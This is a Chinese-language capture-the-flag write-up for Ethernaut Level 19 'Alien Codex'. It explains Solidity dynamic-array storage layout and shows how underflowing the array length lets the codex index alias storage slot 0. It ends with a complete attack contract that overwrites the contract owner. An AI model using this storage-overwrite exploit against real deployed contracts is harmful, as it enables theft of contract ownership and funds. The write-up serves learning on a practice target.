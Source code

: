 # Level 19 - Alien Codex
## 題目
[Alien Codex](https://ethernaut.openzeppelin.com/level/0x0BC04aa6aaC163A6B3667636D798FA053D43BD11)

### 通關條件
你揭開了一個 Alien 合約，宣告你的所有權來完成這一關。
### 提示
- 研究陣列是如何在 storage 中運作的
- 研究 ABI specifications
- 使用一個非常 狡詐 的手段
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```
contract `Ownable` 太長，只節錄重點部分：
```solidity
pragma solidity ^0.5.0;

contract Ownable {
    address private _owner;
```
## 解題
### 研究陣列是如何在 storage 中運作的
動態陣列在 storage 中的儲存方式跟靜態的不一樣，因為靜態的可以事先知道長度，所以會循序加入。動態的則是會按照會在宣告的位置儲存陣列的長度，而陣列實際儲存的位置則是在 `Keccak256(slot index)`，舉例來說：
```solidity
bytes32 public test1;
bytes32 public test2;
bytes32[] public test3;
bytes32 public test4;
```
| slot idx | (type)Variable | 
| ------| --------        |
| 0     | (bytes32) `test1`    |
| 1     | (bytes32) `test2`    |
| 2     | 陣列`test3`的長度|
| 3     | (bytes32) `test4`    |
| ⋮     |  ⋮   |
|   Keccak256(2)   | `test3[0]` |

關於 storage 的儲存方式也可以參考 [What is Smart Contract Storage Layout?](https://docs.alchemy.com/docs/smart-contract-storage-layout)

---

這題特意用舊版的 Solidity，代表是現在已經修掉的 bug。題目要求獲得合約所有權，
變數一共有三個，分別是從 `Ownable` 繼承來的：
1. `address private _owner`

和合約自己本身的：

2. `bool public contact`
3. `bytes32[] public codex`

function 的部分一共有四個，除了第 1 個之外，都是控制陣列 `codex` 的，分別是新增資料（19 行）、刪減長度達到刪除最後一筆資料（23 行）和 27 行的修改陣列中的值。
透過合約的功能我們可以推斷，這題應該是要修改陣列 `codex` 以達到將 owner 改成自己，在 [Level 5 - Token](https://hackmd.io/@D13/ethernaut5) 有提到過關於變數 overflow 的問題，這題也是一樣的概念：
1. 使用 `retract()` 讓 size 從 0 減為 $2^{256}-1$，
在 [Level 8 - Vault](https://hackmd.io/@D13/ethernaut8) 中有提到過，一個合約只有 $2^{256}-1$ 個 storage slot，每個 storage 的長度為 bytes32，所以當 `codex` 的長度等於 $2^{256}-1$ 時，代表它覆蓋了整個 slot 了
2. 再來計算 `codex` 的第幾格會剛好等於 `owner` 的位置  

| slot idx | (type)Variable | 
| ------| --------        |
| 0     | (bytes20) `_owner`, (bool) `contact`  |
| 1     | (bytes32) `length(codex)`|
| ⋮     |  ⋮   |
|   Keccak256(1)   | `codex[0]` |
|   Keccak256(1) + 1   | `codex[1]` |
| ⋮     |  ⋮   |
| $2^{256}-2$     |  `codex[2^256-2-Keccak256(1)]`   |
| $2^{256}-1$     |  `codex[2^256-1-Keccak256(1)]`   |

從上表可以推算，slot 0 = `codex[2^256-1-Keccak256(1)]+1`，攻擊合約如下（呼叫 `retract()` 前要先呼叫 `makeContact()` 讓 `contact = true`，否則 `retract()` 會失敗，可見關卡程式碼 23->10->15 行來確認）
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../src/Ethernaut Challenge/19_AlienCodex.sol";

contract AlienAttack {
    AlienCodex level19 = AlienCodex(your_challenge_address);

    function exploit () external {
        uint index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;
        bytes32 myAddress = bytes32(uint256(uint160(your_wallet_address)));
        level19.makeContact();
        level19.retract();
        level19.revise(index, myAddress);
    }
} 
```


